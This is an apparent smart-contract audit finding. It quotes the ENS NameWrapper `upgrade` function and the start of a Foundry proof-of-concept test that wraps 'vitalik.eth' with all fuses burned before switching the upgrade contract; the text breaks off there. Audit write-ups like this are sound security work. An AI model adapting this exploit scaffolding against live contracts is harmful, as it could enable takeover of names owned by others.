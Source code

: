 ```solidity
// NameWrapper.sol
 426     /**
 427      * @notice Upgrades a non .eth domain of any kind. Could be a DNSSEC name vitalik.xyz or a subdomain
 428      * @dev Can be called by the owner or an authorised caller
 429      * Requires upgraded Namewrapper to permit old Namewrapper to call `setSubnodeRecord` for all names
 430      * @param parentNode Namehash of the parent name
 431      * @param label Label as a string of the name to upgrade
 432      * @param wrappedOwner Owner of the name in this contract
 433      * @param resolver Resolver contract for this name
 434      */
 435
 436     function upgrade(
 437         bytes32 parentNode,
 438         string calldata label,
 439         address wrappedOwner,
 440         address resolver
 441     ) public {
 442         bytes32 labelhash = keccak256(bytes(label));
 443         bytes32 node = _makeNode(parentNode, labelhash);
 444         (uint32 fuses, uint64 expiry) = _prepareUpgrade(node);
 445         upgradeContract.setSubnodeRecord( 
 446             parentNode,
 447             label,
 448             wrappedOwner,
 449             resolver,
 450             0,
 451             fuses,
 452             expiry
 453         );
 454     }
```

```solidity
// Proof of concept
// to run: add this code to the https://gist.github.com/zzzitron/7670730176e35d7b2322bc1f4b9737f0#file-2022-11-ens-versus-poc-t-sol-L345

    function testTest2() public {
        // using the mock for upgrade contract
        deployNameWrapperUpgrade();
        string memory node_str = 'vitalik.eth';
        string memory sub1_full = 'sub1.vitalik.eth';
        string memory sub1_str = 'sub1';
        (, bytes32 node) = node_str.dnsEncodeName();
        (bytes memory sub1_dnsname, bytes32 sub1_node) = sub1_full.dnsEncodeName();

        // wrap parent and lock
        vm.prank(user1);
        registrar.setApprovalForAll(address(nameWrapper), true);
        vm.prank(user1);
        nameWrapper.wrapETH2LD('vitalik', user1, type(uint16).max /* all fuses are burned */, address(0));
        // sanity check
        (address owner, uint32 fuses, uint64 expiry) = nameWrapper.getData(uint256(node));
        assertEq(owner, user1);
        assertEq(fuses, PARENT_CANNOT_CONTROL | IS_DOT_ETH | type(uint16).max);
        assertEq(expiry, 2038123728);

        // upgrade as nameWrapper's owner
        vm.prank(root_owner);
        nameWrapper.setUpgradeContract(nameWrapperUpgrade);
        assertEq(address(nameWrapper.upgradeContract()), address(nameWrapperUpgrade));
```